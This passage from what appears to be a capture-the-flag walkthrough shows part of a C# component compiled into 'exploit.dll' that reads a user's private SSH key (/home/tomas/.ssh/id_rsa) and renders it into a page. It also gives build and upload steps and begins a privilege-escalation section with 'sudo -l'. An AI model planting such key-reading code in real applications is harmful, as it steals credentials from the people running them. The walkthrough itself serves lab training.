 ```csharp
            // Read the content of the sensitive file
            string file = File.ReadAllText("/home/tomas/.ssh/id_rsa");

            // Add the content to the render tree
            builder.AddContent(0, file);
        }
    }
}
```
{% endcode %}

* Builds the project in Release configuration:

```bash
dotnet build -c Release
```

The <mark style="color:red;">**`exploit.dll`**</mark> file will be located in <mark style="color:red;">**`bin/Release/net6.0`**</mark>:&#x20;

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

### Upload <mark style="color:red;">**`exploit.dll`**</mark> PoC&#x20;

{% embed url="https://drive.google.com/file/d/1tWMd3IbRZXgggw0MjId18L_PPkvx2LiU/view?usp=sharing" %}

## Root

Display the user's sudo privileges, showing what commands the user is allowed to run with <mark style="color:red;">**`sudo -l`**</mark>

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

* In Linux, the term <mark style="color:red;">**`procmon`**</mark> might refer to several different tools or custom scripts, depending on the specific context. It's important to note that <mark style="color:red;">**`procmon`**</mark> is not a standard tool on Linux systems by default, unlike **top**, **htop**, or **ps**.
